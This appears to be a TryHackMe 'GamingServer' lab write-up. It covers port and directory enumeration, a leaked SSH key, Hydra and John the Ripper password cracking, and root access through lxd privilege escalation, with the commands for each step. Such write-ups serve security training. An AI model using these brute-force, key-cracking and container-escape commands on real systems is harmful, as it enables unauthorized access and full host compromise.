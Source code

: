 ```yaml
---
title: TryHackMe - GamingServer
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, http, gobuster, ssh, brute, lxd]
img_path: /assets/img/GamingServer
image:
    path: /assets/img/GamingServer/0.jpeg
    alt: GamingServer
---
```


# GamingServer

- An Easy Boot2Root box for beginners.  
- Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.  

# Tasks
- find the user flag and the root flag.  

# nmap

```sh
nmap -sV -sC -v 10.10.69.28
```

```sh
Scanning 10.10.69.28 [1000 ports]
Discovered open port 80/tcp on 10.10.69.28
Discovered open port 22/tcp on 10.10.69.28
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| 256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_ 256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# http_80

## ip `10.10.69.28`

## Gobuster

```sh
gobuster dir -u http://10.10.69.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![](/assets/img/GamingServer/1.png)

## /secrets  
![](/assets/img/GamingServer/2.png)  
I got a secret file that after downloading i found that it was a `ssh RSA`  
![](/assets/img/GamingServer/3.png)  


![](/assets/img/GamingServer/4.png)
surfing through the web i get an upload directory.
## /uploads
![](/assets/img/GamingServer/5.png)

I downloaded the dict.lst file that contains a list of i think passwords or usernames.  
![](/assets/img/GamingServer/6.png)

- Manifesto.txt file that is a  very useless manifesto that is only there to teach you poetry`



## source-code
Going back i got a comment from the dev.  
![](/assets/img/GamingServer/7.png)


## so far we have  
- ssh RSA
- A dict.lst = i assume is a  wordlist
- A user : john 

# ssh_22

First attempt
----------------------------------------------
```sh
hydra -l john -P dict.lst 10.10.69.28 ssh 
```
![](/assets/img/GamingServer/8.png)

-------------------------------------------------
Second Attempt
-------------------------------------------------
```sh
	ssh2john secretKey > secret  
	john --wordlist=dict.lst secret
```
![](/assets/img/GamingServer/9.png)
---------------------------------------------------
Third Attempt
---------------------------------------------------
```sh
chmod 600 secretKey
ssh john@10.10.69.28 -i secretKey
```
This was much better.  
![](/assets/img/GamingServer/10.png)

-----------------------------------------------------
Forth Attempt
-----------------------------------------------------
```sh
/usr/share/john/ssh2john.py secretKey > secret
sudo john secret -w=dict.lst
```
![](/assets/img/GamingServer/11.png)

Now i have the passphrase `letmein`  
Later, back to my senses and spotted my mistakes,Can you??  

-------------------------------------------------------
Login to ssh john
-------------------------------------------------------
```sh
	sudo ssh john@10.10.69.28 -i secretKey
	#passphrase = letmein
```

And now i have a shell.

`ls` and `cat user.txt` to get the user flag.  


# PRIVILEGE ESCALATION
```sh
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We use a method called `Lxd Privilege Escalation`  
Privilege escalation through lxd requires the access of local account, Good thing for us since we have SSH access already.  
Note: the `most important condition` is that the user should be a `member of lxd group`.  

1. To start with we need to download the lxd-alpine image builder to our local machine:  
```sh
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
sudo ./build-alpine -a i686 #run the build-alpine
```
When you ls the directory you will see that you have the image file with the .gz extension.  

2.  we need to setup a simple http server and upload to the image file to the remote machine.  
```sh
python3 -m http.server
```
We can use wget on the remote machine to upload the .qz file.  
```sh
wget http://10.8.172.59:8000/alpine-v3.19-i686-20240201_2212.tar.gz
```

3. Once uploaded we next need to import the image into lxd.  
```sh
lxc image import alpine-v3.19-i686-20240201_2212.tar.gz --alias alpine
```
If we use the command, “lxc image list”, we can see that the image is now available on lxd.

4. Now we need to create a machine from the image.  
```sh
lxc init alpine privesc -c security.privileged=true
```
Where alpine is the image file and privesc is what I am calling the machine.  

5.  we need to add a hard drive to the machine, the privesc technique in this case looks to have the whole host
mounted in the `/mnt/root` and thus you have root access.  
```sh
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

As noted above the machine privesc is currently stopped, so we will need to start it:
```sh
lxc start privesc
```
To exploit the machine
```sh
lxc exec privesc /bin/sh
```

![](/assets/img/GamingServer/12.png)

